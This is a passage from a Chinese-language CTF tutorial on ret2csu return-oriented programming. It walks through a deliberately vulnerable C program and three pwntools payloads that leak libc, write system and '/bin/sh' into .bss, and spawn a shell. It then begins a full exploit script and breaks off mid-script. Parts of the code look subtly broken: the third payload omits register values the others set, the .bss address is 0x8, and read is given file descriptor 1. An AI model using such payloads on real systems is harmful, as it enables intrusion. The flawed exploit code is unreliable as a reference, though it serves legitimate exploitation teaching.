 &emsp;&emsp;这个时候我们精心设计的rop链就可以执行传递多个参数的复杂操作了。

&emsp;&emsp;下面我们来看一道题：  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

&emsp;&emsp;乍一看除了write()和read()啥也没有，可以想到应该是libc泄漏，搜了一波发现没啥好用的gadgets，行吧，__libc_csu_init走起。由于write()函数被调用过，所以我们考虑根据write()来计算偏移：  

&emsp;&emsp;我们先构造payload1,利用write()函数来泄漏write自己在内存里的位置，然后返回到程序里，继续覆盖栈上的数据，直到回到main函数来继续进行后续操作：  
```python
#get the address of write
payload1 = 'a'*0x88  + p64(0x4011e2) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8)
payload1 += p64(0x4011c8) + 'd' * 56 + p64(main)
```

&emsp;&emsp;当我们收到write的地址后，我们便能够计算出system()在内存中的地址了。我们便构造payload2使用read()函数来将算出的system()与/bin/sh写入bss段：  

```python
#get the address of system and bin_sh
payload2 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(read_got) + p64(1) + p64(bss) + p64(16) + p64(0x4011c8) + 'd'*56 + p64(main)
```

最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。 

```python
#activate the system("/bin/sh")
payload3 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(bss) + p64(bss+8) + p64(0x4011c8) + 'd' *56 + p64(main)
```

&emsp;&emsp;最终的exp如下：  

```python
from pwn import *

#r12 = ret_addr

#r13 = rdi = arg1   r14 = rsi = arg2    r15 = rdx = arg3

#rbx = 0    rbp = 1

sh = process('./rop_libc1')

elf = ELF('./rop_libc1')
libc = ELF('./libc.so')

main = 0x401153
bss = 0x00000008
read_got = 0x404020

write_got = elf.got['write']
print "write_got= " + hex(write_got)
```